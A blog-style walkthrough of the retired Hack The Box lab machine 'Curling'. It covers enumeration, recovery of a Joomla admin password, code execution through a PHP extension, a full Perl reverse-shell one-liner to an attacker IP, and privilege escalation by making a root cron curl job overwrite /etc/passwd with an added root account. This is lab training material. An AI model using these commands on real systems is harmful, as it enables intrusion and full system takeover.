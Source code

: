 ```yaml
---
layout: post
title: "Curling: Hack The Box Walkthrough"
date: 2019-03-30 15:46:14 +0000
last_modified_at: 2019-03-30 15:46:24 +0000s
category: Walkthrough
tags: ["Hack The Box", Curling, retired]
comments: true
image:
  feature: curling-htb-walkthrough.jpg
  credit: Shabbytochicnz / Pixabay
  creditlink: https://pixabay.com/en/curling-bonspiel-winter-sport-ice-882649/
---
```


This post documents the complete walkthrough of Curling, a retired vulnerable [VM][1] created by [L4mpje][2], and hosted at [Hack The Box][3]. If you are uncomfortable with spoilers, please stop reading now.
{: .notice}

<!--more-->

### Background

Curling is a retired vulnerable VM from Hack The Box.

### Information Gathering

Let’s start with a `nmap` scan to establish the available services in the host.

```
# nmap -n -v -Pn -p- -A --reason -oN nmap.txt 10.10.10.150
...
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.6p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 8a:d1:69:b4:90:20:3e:a7:b6:54:01:eb:68:30:3a:ca (RSA)
|   256 9f:0b:c2:b2:0b:ad:8f:a1:4e:0b:f6:33:79:ef:fb:43 (ECDSA)
|_  256 c1:2a:35:44:30:0c:5b:56:6a:3f:a5:cc:64:66:d9:a9 (ED25519)
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.29 ((Ubuntu))
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Site doesn't have a title (text/html; charset=utf-8).
```

Let's start with the `http` service. This is how it looks like in a browser.

<a class="image-popup">
![8551cc0f.png](/assets/images/posts/curling-htb-walkthrough/8551cc0f.png)
</a>

### Directory/File Enumeration

Let's use `wfuzz` and SecLists' `quickhits.txt`, and see what we can get.

```
# wfuzz -w /usr/share/seclists/Discovery/Web-Content/quickhits.txt --hc '403,404' http://10.10.10.150/FUZZ
********************************************************
* Wfuzz 2.3.1 - The Web Fuzzer                         *
********************************************************

Target: http://10.10.10.150/FUZZ
Total requests: 2371

==================================================================
ID   Response   Lines      Word         Chars          Payload    
==================================================================

000600:  C=200    109 L      348 W         5110 Ch        "/administrator/"
000603:  C=301      9 L       28 W          325 Ch        "/administrator/logs"
000825:  C=200      1 L        2 W           31 Ch        "/cache/"
000966:  C=200      0 L        0 W            0 Ch        "/configuration.php"
001306:  C=200     80 L      493 W         3005 Ch        "/htaccess.txt"
001444:  C=200    339 L     2968 W        18092 Ch        "/LICENSE.txt"
001915:  C=200     72 L      540 W         4872 Ch        "/README.txt"
002101:  C=200      1 L        2 W           31 Ch        "/templates/"
002138:  C=301      9 L       28 W          310 Ch        "/tmp"
002139:  C=200      1 L        2 W           31 Ch        "/tmp/"
002270:  C=200     31 L       90 W         1690 Ch        "/web.config.txt"

Total time: 48.42746
Processed Requests: 2371
Filtered Requests: 2360
Requests/sec.: 48.95982
```

Now, what do we have here? Joomla!

<a class="image-popup">
![12613c27.png](/assets/images/posts/curling-htb-walkthrough/12613c27.png)
</a>

### Joomla 3.8

If you look at the articles posted, the first article was signed off by Floris and written by Super User. Could `floris` be the username? And, what's the password?

Hidden at the bottom of the HTML source code of the landing page is a HTML comment that looks like this.

<a class="image-popup">
![6ec7edb7.png](/assets/images/posts/curling-htb-walkthrough/6ec7edb7.png)
</a>

Hmm. It seems to suggest the presence of a `secret.txt` file. Let's check it out.

<a class="image-popup">
![8ebdadd4.png](/assets/images/posts/curling-htb-walkthrough/8ebdadd4.png)
</a>

That's the `base64`-encoding of the string `Curling2018!`.

<a class="image-popup">
![a92bf554.png](/assets/images/posts/curling-htb-walkthrough/a92bf554.png)
</a>

Could this be the password? There's only one way to find out.

<a class="image-popup">
![40671766.png](/assets/images/posts/curling-htb-walkthrough/40671766.png)
</a>

The credential is indeed (`floris:Curling2018!`) and a Super User no less.

### Low-Privilege Shell

Searching for "writing joomla article in php" in Google led me to [Sourcerer](https://www.regularlabs.com/extensions/sourcerer), a Joomla extension that allows one to write in any code, more importantly in PHP. And since I'm the Super User, installing an extension is a breeze. Go to Extensions->Manage->Install.

<a class="image-popup">
![95c16f02.png](/assets/images/posts/curling-htb-walkthrough/95c16f02.png)
</a>

Upload the extension and you are done.

<a class="image-popup">
![d1fda8ec.png](/assets/images/posts/curling-htb-walkthrough/d1fda8ec.png)
</a>

Now, log in to the landing page with the same credential and go back to one of the articles already posted; and add some PHP code like this.

<a class="image-popup">
![b1c12ee0.png](/assets/images/posts/curling-htb-walkthrough/b1c12ee0.png)
</a>

Save the article and go to the article's canonical URL.

<a class="image-popup">
![0e4516a9.png](/assets/images/posts/curling-htb-walkthrough/0e4516a9.png)
</a>

Isn't this awesome? We are now ready for a reverse shell. I always like Perl because it's more likely to be present than Python.

```
perl -e 'use Socket;$i="10.10.14.109";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/bash -i");};'
```

[URLencode](https://en.wikipedia.org/wiki/Percent-encoding) it to prevent complications since we are putting in the address bar.

Meanwhile at my `nc` listener, a reverse shell appears...

<a class="image-popup">
![255ebd1e.png](/assets/images/posts/curling-htb-walkthrough/255ebd1e.png)
</a>

### Privilege Escalation

During enumeration of `www-data`'s account, I notice an interesting file `password_backup` at `/home/floris`. The `user.txt` is here but only `floris` can read it.

<a class="image-popup">
![a6623416.png](/assets/images/posts/curling-htb-walkthrough/a6623416.png)
</a>

The file `password_backup` is a hexdump.

<a class="image-popup">
![f38ab22b.png](/assets/images/posts/curling-htb-walkthrough/f38ab22b.png)
</a>

Let's restore the hexdump back to its binary form and see what's next with `file`.

<a class="image-popup">
![4aae9715.png](/assets/images/posts/curling-htb-walkthrough/4aae9715.png)
</a>

Let's try the credential (`floris:5d<wdCbdZu)|hChXll`) with SSH.

<a class="image-popup">
![1fca6a37.png](/assets/images/posts/curling-htb-walkthrough/1fca6a37.png)
</a>

Perfect. Time to retrieve `user.txt`.

<a class="image-popup">
![31cbe022.png](/assets/images/posts/curling-htb-walkthrough/31cbe022.png)
</a>

Now, I notice something really strange going on in `/admin-area`.

<a class="image-popup">
![3a223cec.png](/assets/images/posts/curling-htb-walkthrough/3a223cec.png)
</a>

Two files are written here by `root` at every minute interval! If I have to guess, I would say that a `cron` job is ran by `root` every minute writing the files here.

The file `input` contains `curl`-like argument like this.

<a class="image-popup">
![7a809141.png](/assets/images/posts/curling-htb-walkthrough/7a809141.png)
</a>

If that's the case, I can change the content to this.

```
url = "file:///tmp/passwd"
output = "/etc/passwd"
```

This input will tell `curl` to download the file at `/tmp/passwd` and write it to `/etc/passwd`. Now, let's copy `/etc/passwd` to `/tmp/passwd` and add another `root` account like so.

<a class="image-popup">
![1a567305.png](/assets/images/posts/curling-htb-walkthrough/1a567305.png)
</a>

Where `to5bce5sr7eK6` is the `crypt(3)` hash or one-way digest of "toor" with salt "toor".

Once that's done, we can proceed to modify `input` and log in as `toor` a minute later.

<a class="image-popup">
![f2bb1de7.png](/assets/images/posts/curling-htb-walkthrough/f2bb1de7.png)
</a>

Getting `root.txt` is next to trivial.

<a class="image-popup">
![320937c1.png](/assets/images/posts/curling-htb-walkthrough/320937c1.png)
</a>

:dancer:

[1]: https://www.hackthebox.eu/home/machines/profile/160
[2]: https://www.hackthebox.eu/home/users/profile/29267
[3]: https://www.hackthebox.eu/
